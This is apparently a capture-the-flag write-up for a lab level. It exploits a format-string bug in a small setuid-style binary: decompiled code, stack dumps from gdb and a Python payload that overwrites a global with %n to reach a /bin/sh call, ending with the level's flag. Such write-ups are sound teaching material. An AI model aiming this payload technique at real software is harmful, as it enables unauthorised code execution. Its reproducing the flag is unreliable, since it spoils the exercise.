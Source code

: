 ## Flag3 README: Finding Flag3

After connection on our vm with:
```bash
ssh level3@localhost -p 4242
```
We finded a binary program called level1.
if we decompile it we got this
```C
int v()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```
so we clearly understand that we need to change m to be equal to 64.
firstly we need to decompile it and search for m variable.
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
so we see that the decompilation didn't work
and it s more something like this
```C
result = RandomVariable
if randomvariable == 64 then we continue
```

And there is an known exploit with printf when you make in only print a variable like this :
```C
printf(foo)
```
to be safe he need to be like this :
```C
printf("%s", foo)
```

So let's exploit this.

The idea of the exploit is to print and mofify adress by adding sone %x and %n.
firstly we need to know when you are writing to the stack and at what adress.
So for exemple if if print  AAAA.%x.%x.%x.%x. this is the result :
AAAA.%x.%x.%x.%x.
AAAA.200.b7fd1ac0.b7ff37d0.41414120.
So lets decompile the stack after puting some AAAA inside it.

200 b7fd1ac0 b7ff37d0 is our sequence that are before in the stack. Let's verify it :
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x2e78252e	0x252e7825	0x78252e78
0xbffff530:	0xbf000a2e	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff540:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff588
0xbffff550:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff560:	0x00000098	0x0000000b	0x00000000	0x00000000
0xbffff570:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff580:	0x00000000	0xb7fe765d	0xb7e3ebaf	0x080482bb

So we can see that our sequence is locating in here :
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0


0xbffff520:	0x41414141 this is our 4 A

Then we will have to put the target adress (0x804988c) at the begining in the payload so it will be write at in the stack

So lets decompile the stack after puting some AAAA inside it.

python -c 'print("\x8c\x98\x04\x08" + "%20x"*3 + "%n")'

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

